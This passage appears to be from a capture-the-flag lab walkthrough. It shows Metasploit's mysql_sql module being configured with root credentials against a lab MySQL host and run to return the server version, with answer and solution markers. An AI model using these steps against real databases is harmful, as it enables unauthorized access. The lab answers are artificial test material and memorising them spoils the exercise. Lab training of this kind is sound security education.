 ```bash
Module options (auxiliary/admin/mysql/mysql_sql):

   Name  Current Setting   Required  Description
   ----  ---------------   --------  -----------
   SQL   select version()  yes       The SQL to execute.


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS                     no        The target host(s), see https://docs.metasplo
                                        it.com/docs/using-metasploit/basics/using-met
                                        asploit.html
   RPORT     3306             no        The target port (TCP)
   USERNAME                   no        The username to authenticate as


View the full module info with the info, or info -d command.

msf auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
PASSWORD => password
msf auxiliary(admin/mysql/mysql_sql) > set RHOSTS 10.10.97.114
RHOSTS => 10.10.97.114
msf auxiliary(admin/mysql/mysql_sql) > set USERNAME root
USERNAME => root
msf auxiliary(admin/mysql/mysql_sql) >
```

***Correct answer: PASSWORD/RHOSTS/USERNAME***

Run the exploit.
By default it will test with the `select version()` command,
what result does this give you?

*Solution:*

```bash
msf auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 10.10.97.114
[*] 10.10.97.114:3306 - Sending statement: 'select version()'...
[*] 10.10.97.114:3306 -  | 8.0.42-0ubuntu0.20.04.1 |
[*] Auxiliary module execution completed
msf auxiliary(admin/mysql/mysql_sql) >
```

